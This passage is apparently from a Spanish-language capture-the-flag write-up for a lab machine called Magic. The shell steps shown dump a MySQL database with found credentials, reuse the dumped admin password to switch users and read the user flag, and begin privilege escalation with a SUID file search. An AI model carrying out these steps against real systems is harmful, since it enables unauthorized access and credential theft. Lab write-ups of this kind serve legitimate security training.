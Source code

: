 Tratamos de cambiarnos al usuario `theseus` con las credenciales encontramos pero la contraseña es incorrecta.

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
Password: iamkingtheseus

su: Authentication failure
```

Usando la herramienta `sqldump` podemos hacer el volcado de la base de datos con el nombre de usuario y contraseña de la siguiente forma

```bash
www-data@ubuntu: mysqldump --databases Magic -utheseus -piamkingtheseus

-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
-- Host: localhost    Database:
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1
-- Current Database: `Magic`
-- Dumping data for table `login`

LOCK TABLES `login` WRITE;

INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');

UNLOCK TABLES;
```

Como podemos observar ya encontramos la contraseña del admin y procedemos a logearnos con esta credenciales

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ su theseus
theseus@ubuntu:/var/www/Magic$cat /home/theseus/user.txt
88694a..........................
```




## Escalamiento de privilegios

Ahora, buscamos los archivos SUID que son los archivos en los cuales el usuario puedo ejecutar comandos con los permisos de root y cambiar los comportamientos en los directorios.

```console
theseus@ubuntu:~/.ssh$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```
